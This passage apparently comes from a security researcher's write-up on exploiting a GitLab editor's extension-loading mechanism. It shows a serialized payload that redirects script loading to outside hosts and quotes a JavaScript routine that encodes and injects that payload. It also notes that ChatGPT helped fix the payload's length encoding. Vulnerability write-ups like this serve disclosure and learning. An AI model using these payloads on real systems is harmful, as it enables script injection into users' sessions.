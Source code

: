 Similarly if I had wanted to make changes to the arbitrary domain where the extension location is fetched from

````
'\t\x00\x00\x00\x11\x00\x00\x00O{"$mid":1,"path":"/gl/editor/include.js","scheme":"https","authority":"peo.si"}'
````

I remember last year when I was trying to exploit, I had no idea how fix the length after decoded all I could understand that the front bytes holds some meaning `\x01\x00\x00\x00\x112\r`

So what I did was at that time is to ask Chatgpt. I provided the decoded and encoded version and asked to handle it and it did worked.

Btw here's how @joaxcar did it to make modifications to the script src:

````js
    async function send_everything() {
        const payload = `{"$mid":1,"path":"/gitlab/staging/xss/staging-include.js","scheme":"https","authority":"joaxcar.com"}`
        const encodedPayload = buf2hex(encode(payload))
        const lengthPayload = payload.length.toString(16) 
        const hex_lines = (await fetch_text("staging_send_hex.txt")).replace("617b22246d6964223a312c2270617468223a222f6769746c61622f73746167696e672f73746167696e672d696e636c7564652e6a73222c22736368656d65223a226874747073222c22617574686f72697479223a226a6f61786361722e636f6d227d", lengthPayload + encodedPayload).split("\n")
        await sleep(100)
````

And the Chatgpt way:

![Pasted image 20250727200920.png](/tmp/cdn-images/Pasted%20image%2020250727200920.png)
